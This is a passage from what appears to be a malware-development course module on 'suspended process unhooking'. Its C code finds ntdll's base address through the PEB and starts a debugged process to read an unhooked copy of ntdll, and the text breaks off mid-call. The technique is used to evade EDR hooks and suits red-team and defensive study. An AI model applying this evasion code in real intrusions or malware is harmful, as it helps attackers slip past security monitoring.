 ```c
PVOID FetchLocalNtdllBaseAddress() {

#ifdef _WIN64
	PPEB pPeb = (PPEB)__readgsqword(0x60);
#elif _WIN32
	PPEB pPeb = (PPEB)__readfsdword(0x30);
#endif // _WIN64

	// Reaching to the 'ntdll.dll' module directly (we know its the 2nd image after 'SuspendedProcessUnhooking.exe')
	// 0x10 is = sizeof(LIST_ENTRY)
	PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);
	
	return pLdr->DllBase;
}
```

#### Creating A Suspended Process

This has been performed several times throughout the course by using `CreateProcessA` with the `CREATE_SUSPENDED` or `DEBUG_PROCESS` flags. In the code below, the `DEBUG_PROCESS` flag will be used.

After the process is created, `ReadProcessMemory` is used to read the `ntdll.dll` image. The process is then detached using the [DebugActiveProcessStop](https://learn.microsoft.com/en-us/windows/win32/api/debugapi/nf-debugapi-debugactiveprocessstop) WinAPI and then terminated with the [TerminateProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-terminateprocess) WinAPI. Note that the process won't be terminated if it's not detached first.

If the `CREATE_SUSPENDED` flag was used then replace the `DebugActiveProcessStop` WinAPI with `ResumeThread`.

The above logic is illustrated programmatically in the following `ReadNtdllFromASuspendedProcess` function.

```c
BOOL ReadNtdllFromASuspendedProcess(IN LPCSTR lpProcessName, OUT PVOID* ppNtdllBuf) {

	CHAR	cWinPath[MAX_PATH / 2]	= { 0 };
	CHAR	cProcessPath[MAX_PATH]	= { 0 };

	PVOID	pNtdllModule		= FetchLocalNtdllBaseAddress();
	PBYTE	pNtdllBuffer		= NULL;
	SIZE_T	sNtdllSize		    = NULL,
		    sNumberOfBytesRead	= NULL;

	STARTUPINFO                    Si     = { 0 };
	PROCESS_INFORMATION            Pi     = { 0 };

	// cleaning the structs (setting elements values to 0)
	RtlSecureZeroMemory(&Si, sizeof(STARTUPINFO));
	RtlSecureZeroMemory(&Pi, sizeof(PROCESS_INFORMATION));

	// setting the size of the structure
	Si.cb = sizeof(STARTUPINFO);

	if (GetWindowsDirectoryA(cWinPath, sizeof(cWinPath)) == 0) {
		printf("[!] GetWindowsDirectoryA Failed With Error : %d \n", GetLastError());
		goto _EndOfFunc;
	}

	// 'sprintf_s' is a more secure version than 'sprintf'
	sprintf_s(cProcessPath, sizeof(cProcessPath), "%s\\System32\\%s", cWinPath, lpProcessName);
	
	if (!CreateProcessA(
```